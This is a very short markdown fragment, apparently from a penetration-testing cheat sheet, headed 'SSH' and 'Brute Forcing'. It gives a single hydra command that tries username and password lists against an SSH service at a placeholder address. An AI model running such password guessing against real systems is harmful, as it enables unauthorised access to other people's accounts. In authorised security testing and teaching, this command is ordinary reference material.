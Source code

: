 # SSH

## Brute Forcing

```
hydra IP_ADDRESS ssh -s 22 -P passwords.txt -L users.txt -e nsr -t 4
```
